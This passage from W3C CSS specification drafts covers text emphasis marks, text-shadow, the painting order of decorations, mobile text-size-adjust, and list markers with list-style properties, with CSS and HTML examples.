This property specifies the foreground color of the emphasis marks.

> **Note:** `currentcolor` keyword computes to itself and is resolved to the value of `color` after inheritance is performed. This means `text-emphasis-color` by default matches the text `color` even as `color` changes across elements.

#### 3.3.  Emphasis Mark Shorthand: the `text-emphasis` property {#css-text-decor-4:text-emphasis-property}

| Field | Value |
| --- | --- |
| Name: | **text-emphasis** |
| [Value:](#css-values-4:value-defs) | `<'text-emphasis-style'>` \|\| `<'text-emphasis-color'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This property is a shorthand for setting `text-emphasis-style` and `text-emphasis-color` in one declaration. Omitted values are set to their initial values.

> **Note:** that `text-emphasis-position` is not reset in this shorthand. This is because typically the shape and color vary, but the position is consistent for a particular language throughout the document. Therefore the position should inherit independently.

#### 3.4.  Emphasis Mark Position: the `text-emphasis-position` property {#css-text-decor-4:text-emphasis-position-property}

| Field | Value |
| --- | --- |
| Name: | **text-emphasis-position** |
| [Value:](#css-values-4:value-defs) | [ over \| under ] && [ right \| left ]? |
| [Initial:](#css-cascade-6:initial-values) | over right |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property describes where emphasis marks are drawn at. If `[ right | left ]` is omitted, it defaults to `right`. The values have following meanings:

****over****

: Draw marks over the text in horizontal typographic modes.

****under****

: Draw marks under the text in horizontal typographic modes.

****right****

: Draw marks to the right of the text in vertical typographic modes.

****left****

: Draw marks to the left of the text in vertical typographic modes.

Emphasis marks are drawn exactly as if each character was assigned the mark as its ruby annotation text with the ruby position given by `text-emphasis-position` and the ruby alignment as centered. Note that this position may be adjusted if it would conflict with underline or overline decorations.

The effect of emphasis marks on the line height is the same as for ruby text.

> **Note:** the preferred position of emphasis marks depends on the language. In Japanese for example, the preferred position is `over right`. In Chinese, on the other hand, the preferred position is `under right`. The informative table below summarizes the preferred emphasis mark positions for Chinese and Japanese:
>
> | Language | Preferred position | Illustration |  |  |
> | --- | --- | --- | --- | --- |
> | Horizontal | Vertical |  |  |  |
> | Japanese | over | right |  |  |
> | Korean |  |  |  |  |
> | Mongolian |  |  |  |  |
> | Chinese | under | right |  |  |

If emphasis marks are applied to characters for which ruby is drawn in the same position as the emphasis mark, the emphasis marks are placed outside the ruby. This includes [auto-hidden](#css-ruby-1:autohide) and empty ruby annotations.


Emphasis marks applied to 4 characters, with ruby also on 2 of them

> **Example:** Some editors prefer to hide emphasis marks when they conflict with ruby. In HTML, this can be done with the following style rule:
>
> ```
> ruby { text-emphasis: none; }
> ```
>
> Some other editors prefer to hide ruby when they conflict with emphasis marks. In HTML, this can be done with the following pattern:
>
> ```
> em { text-emphasis: dot; } /* Set text-emphasis for <em> elements */
> em rt { display: none; }   /* Hide ruby inside <em> elements */
> ```

#### 3.5.  Emphasis Mark Skip: the `text-emphasis-skip` property {#css-text-decor-4:text-emphasis-skip}

> **Issue:** This section is under brainstorming. It’s also not yet clear if this property is needed quite yet, despite differences in desired behavior among publications.

| Field | Value |
| --- | --- |
| Name: | **text-emphasis-skip** |
| [Value:](#css-values-4:value-defs) | spaces \|\| punctuation \|\| symbols \|\| narrow |
| [Initial:](#css-cascade-6:initial-values) | spaces punctuation |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property describes for which characters marks are drawn. The values have following meanings:

****spaces****

: Skip [word separators](#css-text-4:word-separator) or other characters belonging to the Unicode separator category (Z*). (But note that emphasis marks *are* drawn for a space that combines with any combining characters.)

****punctuation****

: Skip punctuation. Punctuation in this definition includes characters belonging to the Unicode P* category that are not defined as `symbols` (see below).

****symbols****

: Skip symbols. Symbols in this definition includes all typographic character units belonging to the Unicode S* general category as well as any which are `NFKD`-equivalent [UAX15] to the following characters from the Unicode Po category:

  | # | U+0023 | NUMBER SIGN |
  | --- | --- | --- |
  | % | U+0025 | PERCENT SIGN |
  | ‰ | U+2030 | PER MILLE SIGN |
  | ‱ | U+2031 | PER TEN THOUSAND SIGN |
  | ٪ | U+066A | ARABIC PERCENT SIGN |
  | ؉ | U+0609 | ARABIC-INDIC PER MILLE SIGN |
  | ؊ | U+060A | ARABIC-INDIC PER TEN THOUSAND SIGN |
  | & | U+0026 | AMPERSAND |
  | ⁊ | U+204A | TIRONIAN SIGN ET |
  | @ | U+0040 | COMMERCIAL AT |
  | § | U+00A7 | SECTION SIGN |
  | ¶ | U+00B6 | PILCROW SIGN |
  | ⁋ | U+204B | REVERSED PILCROW SIGN |
  | ⁓ | U+2053 | SWUNG DASH |
  | 〽️ | U+303D | PART ALTERNATION MARK |

****narrow****

: Skip characters where the `East_Asian_Width` property [UAX11] of the Unicode database [UAX44] is not F (Fullwidth) or W (Wide).

Characters belonging to the Unicode classes for control codes and unassigned characters (Cc, Cf, Cn) are skipped regardless of the value of this property.

> **Issue:** This syntax requires UA to implement drawing marks for spaces. Is there any use case for doing so? If not, should we modify the syntax not to allow drawing marks for spaces?

> **Issue:** See also [discussion of the initial value](https://github.com/w3c/csswg-drafts/issues/839).

### 4.  Text Shadows: the `text-shadow` property {#css-text-decor-4:text-shadow-property}

| Field | Value |
| --- | --- |
| Name: | **text-shadow** |
| [Value:](#css-values-4:value-defs) | none \| `<shadow>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | either the keyword `none` or a list, each item consisting of four absolute lengths plus a computed color and optionally also an `inset` keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | [as shadow list](#web-animations-1:animating-shadow-lists) |

This property accepts a comma-separated list of shadow effects to be applied to the text of the element. Values are interpreted as for `box-shadow` [CSS-BACKGROUNDS-3]. Each layer shadows the element’s text and all its text decorations (composited together). The shadow effects are applied front-to-back: the first shadow is on top. The shadows may thus overlay each other.

Unlike `box-shadow`, the spread distance is strictly interpreted as outset distance from any point of the glyph outline, and therefore, similar to the blur radius, creates rounded, rather than sharp, corners. Negative spread values are invalid.

> **Issue:** Leave corner shaping undefined? [[Issue #7250]](https://github.com/w3c/csswg-drafts/issues/7250)

**Outer text shadows** (specified without the `inset` keyword) shadow the text—​including any text stroke [FILL-STROKE-3]—​as if it were cut and raised above the surrounding canvas. Unlike `box-shadow`, outer text shadows are not clipped to the shadowed shape and may show through if the text is partially-transparent.

**Inner text shadows** (specified with the `inset` keyword) shadow the canvas—​and any text stroke [FILL-STROKE-3]—​as if the text were cut and dropped below the surrounding canvas. They are therefore only drawn within the inner edge of the stroke.

Outer text shadows must be painted at a stack level between the element’s border/background (if present) and the elements text and text decoration. Inner text shadows must be painted over the text and its decorations. UAs should avoid painting text shadows over text in adjacent elements belonging to the same stack level and stacking context. (This may mean that the exact stack level of the shadows depends on whether the element has a border or background: the exact stacking behavior of text shadows is thus UA-defined.)

> **Issue:** Stacking relationship to stroke? [[Issue #7251]](https://github.com/w3c/csswg-drafts/issues/7251)

Like `box-shadow`, text shadows do not influence layout, and do not trigger scrolling or increase the size of the scrollable overflow region.

The `text-shadow` property applies to both the `::first-line` and `::first-letter` pseudo-elements.

### 5.  Painting Text Decorations {#css-text-decor-4:painting}

#### 5.1.  Painting Order of Text Decorations {#css-text-decor-4:painting-order}

As in [CSS2], text decorations are drawn immediately over/under the text they decorate, in the following order (bottommost first):

- shadows (`text-shadow`)
- underlines (`text-decoration`)
- overlines (`text-decoration`)
- text
- emphasis marks (`text-emphasis`)
- line-through (`text-decoration`)

Where line decorations are drawn across box decorations or atomic inlines, they are drawn over non-positioned content and just below any positioned descendants (immediately below layer #8 in CSS2.1 Appendix E).

#### 5.2.  Overflow of Text Decorations {#css-text-decor-4:overflow}

Text decorations that leak outside a box are considered ink overflow: they do not extend the scrollable overflow region. [css-overflow-3]

### Appendix B: Default UA Stylesheet {#css-text-decor-4:default-stylesheet}

This appendix is informative, and is to help UA developers to implement default stylesheet, but UA developers are free to ignore or change.

> **Example:** ```
> /* typical styling of HTML */
> blink {
>   text-decoration-line: blink;
> }
> s, strike, del {
>   text-decoration: line-through;
> }
> u, ins, :link, :visited {
>   text-decoration: underline;
> }
> abbr[title], acronym[title] {
>   text-decoration: dotted underline;
> }
>
> /* disable inheritance of text-emphasis marks to ruby text:
>   emphasis marks should only apply to base text */
> rt { text-emphasis: none; }
>
> /* set language-appropriate default emphasis mark position */
> :root:lang(zh), [lang|=zh] { text-emphasis-position: under right; }
> [lang|=ja], [lang|=ko]     { text-emphasis-position: over right; }
>
> /* set language-appropriate default underline position */
> :root:lang(ja), [lang|=ja],
> :root:lang(mn), [lang|=mn],
> :root:lang(ko), [lang|=ko] { text-underline-position: right; }
> :root:lang(zh), [lang|=zh] { text-underline-position: left;  }
> /* auto is chosen (implied) above instead of under
>    due to content-compatibility concerns */
> ```

> **Issue:** If you find any issues, recommendations to add, or corrections, please send the information to [www-style@w3.org](mailto:www-style@w3.org) with `[css-text-decor]` in the subject line.

> **Example:** While `text-decoration-line: blink` can’t be fully reproduced with other existing properties, authors can achieve a very similar effect with the following CSS:
>
> ```
> @keyframes blink {
>   0% {
>     visibility: hidden;
>     animation-timing-function: step-end;
>   }
>   25%, 100% {
>     visibility: visible;
>   }
> }
> blink {
>   animation: blink 1s infinite;
> }
> ```

---

## CSS Mobile Text Size Adjustment Module Level 1 {#css-size-adjust-1}

- **Shortname:** `css-size-adjust-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-size-adjust/](https://drafts.csswg.org/css-size-adjust/)
- **Published TR:** [https://www.w3.org/TR/css-size-adjust/](https://www.w3.org/TR/css-size-adjust/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-01-14

### 1. Introduction {#css-size-adjust-1:intro}

A common mechanism for displaying Web pages that were designed for large desktop displays on much smaller displays such as those of mobile phones involves allowing the user to pan and zoom around within a view of the Web page drawn as though it were drawn into the width of a typical desktop Web browser display. The ability to pan and zoom the page lets the user both see an overview of the page and zoom in to specific parts to read or interact with them.

One common problem with this type of interaction occurs when the user wants to read a large block of text. It might be that a block of text within this desktop-formatted page might be laid out so that when the user zooms in so that the text is large enough to read, each line of text is wider than the display on the small device. This means the user needs to scroll side to side to read *each line of text*, which is a serious inconvenience to the user.

One way for software that displays Web pages or other CSS-formatted content on a mobile device is to make some of the text larger so that this problem does not occur. The goal of this enlargement is to make the text big enough so that when the block it is in is scaled to the width of the display, the text is large enough to read. At the same time, this needs to be done with minimal disruption to the overall design of the page.

While implementations of CSS are not required to use this technique, this module describes how implementations of CSS that do use this technique must do so. In other words, while implementations of CSS are not required to implement this module, this module nonetheless places requirements on implementations of this module.

This module describes how this size adjustment works and describes a new CSS property that authors of CSS can use to provide hints to the implementation about which text or other elements should or should not be enlarged.

#### 1.1. Module interactions {#css-size-adjust-1:placement}

This module adds additional features that are not defined in [CSS2]. These features may lead to a different size being computed than would be computed when following [CSS2] alone.

#### 1.2. Value Definitions {#css-size-adjust-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Default size adjustment {#css-size-adjust-1:default-adjustment}

This section defines the default size adjustment rules. These rules are then referenced by the definition of the `text-size-adjust` property in the following section.

> **Issue:** All of the subsections of this section need significant refinement: additional detail, verification that the detail already present is correct, etc.

> **Issue:** It’s not clear how much this section should define precise behavior versus how much it should allow future room for innovation and improvement.

#### 2.1. Types of boxes adjusted {#css-size-adjust-1:default-adjustment-types}

The default size adjustment affects text and form controls, whether those form controls contain text (e.g., text inputs, selects) or do not (e.g., radio buttons, checkboxes).

#### 2.2. Conditions that suppress adjustment {#css-size-adjust-1:default-adjustment-conditions}

A number of conditions suppress the default adjustment because these conditions are associated with layouts for which the user experience would be worsened by size adjustment rather than improved by it. These conditions are:

- when the total amount of text in the block formatting context (see [CSS2]) (excluding text inside descendant block formatting contexts) is approximately smaller than the amount that would require wrapping to more than one or two lines within that context’s width,
- when the objects to be adjusted are inside a block-level or `display: inline-block` element with a `height` other than `auto` (see [CSS2]),
- when the objects to be adjusted are inside a `display: inline-block` element with a `width` other than `auto` (see [CSS2]),
- when the objects to be adjusted have `white-space` of `pre` or `nowrap` (see [CSS2]) or a `text-wrap` of `nowrap` (see [CSS-TEXT-4]).

#### 2.3. Calculation of default adjustment {#css-size-adjust-1:default-adjustment-calculation}

The adjustment performed should be based on preferences (of the renderer or the renderer’s user) indicating the desired **minimum readable text size**. Given this preference, for each containing block of text to be adjusted, there is a **minimum block text size**: the preference for the minimum readable text size, times the width of the containing block, divided by the width of the device.

The size adjustment involves multiplication of sizes by a ratio determined by the minimum block text size and the computed value of `font-size`. This ratio must be at least the first divided by the second; however, in order to maintain differentiations between font sizes, it should often be slightly larger. Define this with more detail/precision.

### 3. Size adjustment control: the `text-size-adjust` property {#css-size-adjust-1:adjustment-control}

| Field | Value |
| --- | --- |
| Name: | **text-size-adjust** |
| [Value:](#css-values-4:value-defs) | auto \| none \| `<percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | see below |
| [Computed value:](#css-cascade-6:computed) | specified keyword or percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | N/A |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

****auto****

: Renderers must use the [default size adjustment](#css-size-adjust-1:default-adjustment) when displaying on a small device.

****none****

: Renderers must not do size adjustment when displaying on a small device.

****<percentage [0,∞]>****

: When displaying on a small device, renderers must not do size adjustment but instead the computed value of `font-size` must be multiplied by this percentage.

  > **Note:** This means that 'text-size-adjust: 100%;' is equivalent to 'text-size-adjust: none;'.

  Negative values are invalid.

> **Issue:** "Small device" is not well defined. We should clearly specify when text size adjustment should apply. For example, in practice a large tablet is considered by vendors to be a small device.

---

## CSS Lists and Counters Module Level 3 {#css-lists-3}

- **Shortname:** `css-lists-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-lists-3/](https://drafts.csswg.org/css-lists-3/)
- **Published TR:** [https://www.w3.org/TR/css-lists-3/](https://www.w3.org/TR/css-lists-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-04-28

### 1.  Introduction {#css-lists-3:intro}

This specification defines the `::marker` pseudo-element, the `list-item` display type that generates markers, and several properties controlling the placement and styling of markers.

It also defines counters, which are special numerical objects often used to generate the default contents of markers.

> **Example:** For instance, the following example illustrates how markers can be used to add parentheses around each numbered list item:
>
> ```
> <style>
> li::marker { content: "(" counter(list-item, lower-roman) ")"; }
> li { display: list-item; }
> </style>
> <ol>
>   <li>This is the first item.
>   <li>This is the second item.
>   <li>This is the third item.
> </ol>
> ```
>
> It should produce something like this:
>
> ```
>   (i) This is the first item.
>  (ii) This is the second item.
> (iii) This is the third item.
> ```
>
> > **Note:** Note that this example is far more verbose than is usually needed in HTML, as the UA default style sheet takes care of most of the necessary styling.

With descendant selectors and child selectors, it’s possible to specify different marker types depending on the depth of embedded lists.

#### 1.1.  Value Definitions {#css-lists-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Declaring a List Item {#css-lists-3:declaring-a-list-item}

A **list item** is any element with its `display` property set to `list-item`. List items generate `::marker` pseudo-elements; no other elements do. Additionally, list items automatically increment an implied `list-item` counter (see [§ 4.6 The Implicit list-item Counter](#css-lists-3:list-item-counter)).

### 3.  Markers {#css-lists-3:markers}

The defining feature of the list item display type is its **marker**, a symbol or ordinal that helps denote the beginning of each list item in a list. In the CSS layout model, list item markers are represented by a marker box associated with each list item. The contents of this marker can be controlled with the `list-style-type` and `list-style-image` properties on the list item and by assigning properties to its `::marker` pseudo-element.

#### 3.1.  The `::marker` Pseudo-Element {#css-lists-3:marker-pseudo}

The marker box is generated by the `::marker` pseudo-element of a list item as the list item’s first child, before the `::before` pseudo-element (if it exists on the element). It is filled with content as defined in [§ 3.2 Generating Marker Contents](#css-lists-3:content-property).

> **Example:** In this example, markers are used to number paragraphs that are designated as "notes":
>
> ```
> <style>
> p { margin-left: 12 em; }
> p.note {
>   display: list-item;
>   counter-increment: note-counter;
> }
> p.note::marker {
>   content: "Note " counter(note-counter) ":";
> }
> </style>
> <p>This is the first paragraph in this document.
> <p class="note">This is a very short document.
> <p>This is the end.
> ```
>
> It should render something like this:
>
> ```
>         This is the first paragraph
>         in this document.
>
> Note 1: This is a very short
>         document.
>
>         This is the end.
> ```

> **Example:** By using the `::marker` pseudo-element, a list’s markers can be styled independently from the text of the list item itself:
>
> ```
> <style>
> p { margin-left: 8em } /* Make space for counters */
> li { list-style-type: lower-roman; }
> li::marker { color: blue; font-weight:bold; }
> </style>
> <p>This is a long preceding paragraph ...
> <ol>
>   <li>This is the first item.
>   <li>This is the second item.
>   <li>This is the third item.
> </ol>
> <p>This is a long following paragraph ...
> ```
>
> The preceding document should render something like this:
>
> ```
>        This is a long preceding
>        paragraph ...
>
>   i.   This is the first item.
>  ii.   This is the second item.
> iii.   This is the third item.
>
>        This is a long following
>        paragraph ...
> ```
>
> Previously the only way to style a marker was through inheritance; one had to put the desired marker styling on the list item, and then revert that on a wrapper element around the list item’s actual contents.

Marker boxes only exist for list items: on any other element, the `::marker` pseudo-element’s `content` property must compute to `none`, which suppresses its creation.

##### 3.1.1.  Properties Applying to `::marker` {#css-lists-3:marker-properties}

All properties can be set on a `::marker` pseudo-element and will have a computed value which will then inherit to its text content.

> **Example:** Inheritable properties that apply to text can be set on the `::marker` pseudo-element: these will inherit to and take effect on its text contents. Some examples of such properties include:
>
> - `text-transform`, `letter-spacing`, `word-spacing` (see [CSS-TEXT-3])
> - all the font properties (see [CSS-FONTS-3] and its successors)
> - the `color` property (see [CSS-COLOR-3])

However, only the following CSS properties actually apply to a marker box:

- the `text-combine-upright`, `unicode-bidi`, and `direction` properties (see [CSS-WRITING-MODES-3])
- the `content` property (see [§ 3.2 Generating Marker Contents](#css-lists-3:content-property), below)
- all animation and transition properties (see [CSS-ANIMATIONS-1] and [CSS-TRANSITIONS-1])

Other properties should not have an effect on the marker box when declared directly on `::marker` in the author or user origin of the cascade. UAs may either treat such properties as not applying, or enforce their value or inheritance from the originating element by setting a user-agent origin `!important` rule.

> **Note:** It is expected that future specifications will extend this list of properties and relax the restriction on which properties can take effect. However at the moment outside marker box layout is not fully defined, so to avoid future compatibility problems only these properties are allowed.

Additionally, UAs must add the following rule to their default style sheet:

```
::marker, ::before::marker, ::after::marker {
  unicode-bidi: isolate;
  font-variant-numeric: tabular-nums;
  white-space: pre;
  text-transform: none;
}
```

> **Issue:** `white-space: pre` doesn’t have quite the right behavior; `white-space-collapse: preserve-spaces` + `white-space-trim: discard-after` might be closer to what’s needed here. See discussion in [Issue 4448](https://github.com/w3c/csswg-drafts/issues/4448) and [Issue 4891](https://github.com/w3c/csswg-drafts/issues/4891).

> **Note:** Although the `::marker` pseudo-element can represent the marker box of a `::before` or `::after` pseudo-element, the compound selector `::marker`, which expands to `*::marker` [SELECTORS-4], will not select these markers—​an originating element that is a pseudo-element needs to be explicitly specified in the selector, e.g. `::before::marker`.

#### 3.2.  Generating Marker Contents {#css-lists-3:content-property}

The contents of a marker box are determined by the first of these conditions that is true:

**`content` on the `::marker` itself is not `normal`**

: The contents of the marker box are determined as defined by the `content` property, exactly as for `::before`.

**`list-style-image` on the originating element defines a marker image**

: The marker box contains an anonymous inline replaced element representing the specified marker image, followed by a text sequence consisting of a single space (U+0020 SPACE).

**`list-style-type` on the originating element defines a marker string**

: The marker box contains a text sequence consisting of the specified marker string.

**otherwise**

: The marker box has no contents and `::marker` does not generate a box.

Additionally, the UA may transform into spaces or discard any preserved forced line breaks.

#### 3.3.  Image Markers: the `list-style-image` property {#css-lists-3:image-markers}

| Field | Value |
| --- | --- |
| Name: | **list-style-image** |
| [Value:](#css-values-4:value-defs) | `<image>` \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | list items |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`or the computed `<image>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies the **marker image**, which is used to fill the list item’s marker when its `content` is `normal`. The values are as follows:

****`<image>`****

: If the `<image>` represents a valid image, specifies the element’s marker image as the <image>. Otherwise, the element has no marker image.

****none****

: The element has no marker image.

The marker image is sized using the default sizing algorithm [css-images-3] with no specified size and a default object size of 1em square.

> **Example:** The following example sets the marker at the beginning of each list item to be the image "ellipse.png".
>
> ```
> li { list-style-image: url("http://www.example.com/ellipse.png") }
> ```

#### 3.4.  Text-based Markers: the `list-style-type` property {#css-lists-3:text-markers}

| Field | Value |
| --- | --- |
| Name: | **list-style-type** |
| [Value:](#css-values-4:value-defs) | `<counter-style>` \| `<string>` \| none |
| [Initial:](#css-cascade-6:initial-values) | disc |
| [Applies to:](#css-cascade-5:applies-to) | list items |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies the **marker string**, which is used to fill the list item’s marker when its `content` value is `normal` and there is no marker image. The values are as follows:

****`<counter-style>`****

: Specifies the element’s marker string as the value of the `list-item` counter represented using the specified `<counter-style>`.

  Specifically, the marker string is the result of generating a counter representation of the `list-item` counter value using the specified `<counter-style>`, prefixed by the `prefix` of the <counter-style>, and followed by the `suffix` of the <counter-style>. If the specified <counter-style> does not exist, `decimal` is assumed.

****`<string>`****

: The element’s marker string is the specified `<string>`.

****none****

: The element has no marker string.

> **Example:** The following examples illustrate how to set markers to various values:
>
> ```
> ul { list-style-type: "★"; }
> /* Sets the marker to a "star" character */
>
> p.note {
>   display: list-item;
>   list-style-type: "Note: ";
>   list-style-position: inside;
> }
> /* Gives note paragraphs a marker consisting of the string "Note: " */
>
> ol { list-style-type: upper-roman; }
> /* Sets all ordered lists to use the upper-roman counter-style
>    (defined in the Counter Styles specification [[CSS-COUNTER-STYLES]]) */
>
> ul { list-style-type: symbols(cyclic '○' '●'); }
> /* Sets all unordered list items to alternate between empty and
>    filled circles for their markers. */
>
> ul { list-style-type: none; }
> /* Suppresses the marker entirely, unless list-style-image is specified
>    with a valid image. */
> ```

#### 3.5.  Positioning Markers: The `list-style-position` property {#css-lists-3:list-style-position-property}

| Field | Value |
| --- | --- |
| Name: | **list-style-position** |
| [Value:](#css-values-4:value-defs) | inside \| outside |
| [Initial:](#css-cascade-6:initial-values) | outside |
| [Applies to:](#css-cascade-5:applies-to) | list items |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | keyword, but see prose |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property dictates whether the `::marker` is rendered inline, or positioned just outside of the list item. The values are as follows:

****inside****

: No special effect. (The `::marker` is an inline element at the start of the list item’s contents.)

****outside****

: If the list item is a block container: the marker box is a block container and is placed outside the principal block box; however, the position of the list-item marker adjacent to floats is undefined. CSS does not specify the precise location of the marker box or its position in the painting order, but does require that it be placed on the inline-start side of the box, using the writing mode of the box indicated by `marker-side`. The marker box is fixed with respect to the principal block box’s border and does not scroll with the principal box’s content. A UA may hide the marker if the element’s `overflow` is other than `visible`. (This allowance may change in the future.) The size or contents of the marker box may affect the height of the principal block box and/or the height of its first line box, and in some cases may cause the creation of a new line box; this interaction is also not defined.

  > **Issue:** This is handwavey nonsense from CSS2, and needs a real definition.

  If the list item is an inline box: this value is equivalent to `inside`.

  > **Issue:** Alternatively, `outside` could lay out the marker as a previous sibling of the principal inline box.

> **Example:** For example:
>
> ```
> <style>
>   ul.compact { list-style: inside; }
>   ul         { list-style: outside; }
> </style>
> <ul class=compact>
>   <li>first "inside" list item comes first</li>
>   <li>second "inside" list item comes first</li>
> </ul>
> <hr>
> <ul>
>   <li>first "outside" list item comes first</li>
>   <li>second "outside" list item comes first</li>
> </ul>
> ```
>
> The above example may be formatted as:
>
> ```
>   * first "inside" list
>   item comes first
>   * second "inside" list
>   item comes second
>
> ========================
>
> * first "outside" list
>   item comes first
> * second "outside" list
>   item comes second
> ```

#### 3.6.  Styling Markers: the `list-style` shorthand property {#css-lists-3:list-style-property}

| Field | Value |
| --- | --- |
| Name: | **list-style** |
| [Value:](#css-values-4:value-defs) | `<'list-style-position'>` \|\| `<'list-style-image'>` \|\| `<'list-style-type'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | list items |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `list-style` property is a shorthand notation for setting the three properties `list-style-type`, `list-style-image`, and `list-style-position` at the same place in the style sheet.

> **Example:** For example:
>
> ```
> ul { list-style: upper-roman inside }  /* Any UL */
> ul ul { list-style: circle outside } /* Any UL child of a UL */
> ```

Using a value of `none` in the shorthand is potentially ambiguous, as `none` is a valid value for both `list-style-image` and `list-style-type`. To resolve this ambiguity, a value of `none` in the shorthand must be applied to whichever of the two properties aren’t otherwise set by the shorthand.

> **Example:** ```
> list-style: none disc;
> /* Sets the image to "none" and the type to "disc". */
>
> list-style: none url(bullet.png);
> /* Sets the image to "url(bullet.png)" and the type to "none". */
>
> list-style: none;
> /* Sets both image and type to "none". */
>
> list-style: none disc url(bullet.png);
> /* Syntax error */
> ```

> **Note:** The `<counter-style>` values of `list-style-type` can also create grammatical ambiguities. As such values are ultimately `<custom-ident>` values, the parsing rules in [CSS-VALUES-3] apply.

> **Example:** Although authors may specify `list-style` information directly on list item elements (e.g., `li` in HTML), they should do so with care. Consider the following rules:
>
> ```
> ol.alpha li { list-style: lower-alpha; }
> ul li       { list-style: disc; }
> ```
>
> The above won’t work as expected. If you nest a `ul` into an ol class=alpha, the first rule’s specificity will make the `ul`’s list items use the lower-alpha style.
>
> ```
> ol.alpha > li { list-style: lower-alpha; }
> ul > li       { list-style: disc; }
> ```
>
> These work as intended.
>
> ```
> ol.alpha { list-style: lower-alpha; }
> ul       { list-style: disc; }
> ```
>
> These are even better, since inheritance will transfer the `list-style` value to the list items.

#### 3.7.  The `marker-side` property {#css-lists-3:marker-side}

| Field | Value |
| --- | --- |
| Name: | **marker-side** |
| [Value:](#css-values-4:value-defs) | match-self \| match-parent |
| [Initial:](#css-cascade-6:initial-values) | match-self |
| [Applies to:](#css-cascade-5:applies-to) | list items |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `marker-side` property specifies whether an `outside` marker box is positioned based on the directionality of the list item itself (i.e. its originating element) or the directionality of the list container (i.e. the originating element’s parent). In the first case, the position of the marker can vary across items in the same list, based on the directionality assigned to each list item individually; in the second case they will all align on the same side, as determined by the directionality assigned to the list as a whole.

****match-self****

: The marker box is positioned using the directionality of the `::marker`’s originating element.

****match-parent****

: The marker box is positioned using the directionality of the `::marker`’s originating element’s parent element.

> **Example:** By default, elements or `::marker` pseudo-elements position themselves according to their list item’s directionality. However, if the list item is grouped with several other list items which may have different directionality (for example, multiple <li>s with different "dir" attributes in an <ol> in HTML), it is sometimes more useful to have all the markers line up on one side, so the author can specify a single "gutter" on that side and be assured that all the markers will lie in that gutter and be visible.
>
> Both of the following example renderings are generated from the following HTML, with the only difference being the value of `marker-side` on the list:
>
> ```
> <ul>
>   <li>english one
>   <li dir=rtl>OWT WERBEH
>   <li>english three
>   <li dir=rtl>RUOF WERBEH
> </ul>
> ```
>
> | `match-self` | `match-parent` |
> | --- | --- |
